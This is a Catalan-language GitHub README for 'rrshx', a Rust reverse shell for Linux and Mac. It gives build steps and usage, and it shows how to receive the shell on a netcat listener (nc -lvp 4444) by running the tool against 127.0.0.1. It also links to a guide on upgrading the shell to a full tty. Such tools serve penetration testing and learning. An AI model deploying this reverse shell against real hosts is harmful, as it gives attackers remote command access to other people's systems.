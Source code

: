 ## rrshx - Rust Reverse Shell for Linux And Mac 
Que és una Reverse Shell? [https://en.wikipedia.org/wiki/Shell_shoveling](https://en.wikipedia.org/wiki/Shell_shoveling).

Utilització: **./rrshx [ip] [port]**

Exemple: **./rrshx 127.0.0.1 4444**

**Complilar a partir del codi font**

git clone https://github.com/jc4st3lls/rrshx.git

cd rrshx

cargo build --release 

(a la carpeta bin hi ha una versió compilada)

**Com provar**

Instal.lem Netcat a linux o mac. Un cop instal.lat, en un terminal l'engeguem.
**nc -lvp 4444**

Obrim un altre terminal i executem el binari compilat
**./rrshx 127.0.0.1 4444**

Si volem provar des del codi font **cargo run -- 127.0.0.1 4444**

El que conseguim és una shell en el terminal on hem engegat el netcat. Però, no és un terminal com a tal (tty). Les aplicacions que requereixen d'un terminal (tty) no funcionen correctament. Hem d'entendre que passem streams de dades des del client (rrshx) al servidor (nc).

[https://es.wikipedia.org/wiki/Tty_(Unix)]( https://es.wikipedia.org/wiki/Tty_(Unix) )
[https://es.wikipedia.org/wiki/Emulador_de_terminal]( https://es.wikipedia.org/wiki/Emulador_de_terminal )


Per solventar aquest problema, hi ha diferents tècniques. Deixo enllaç que us pot ajudar.

[https://ironhackers.es/tutoriales/como-conseguir-tty-totalmente-interactiva/]( https://ironhackers.es/tutoriales/como-conseguir-tty-totalmente-interactiva/ )


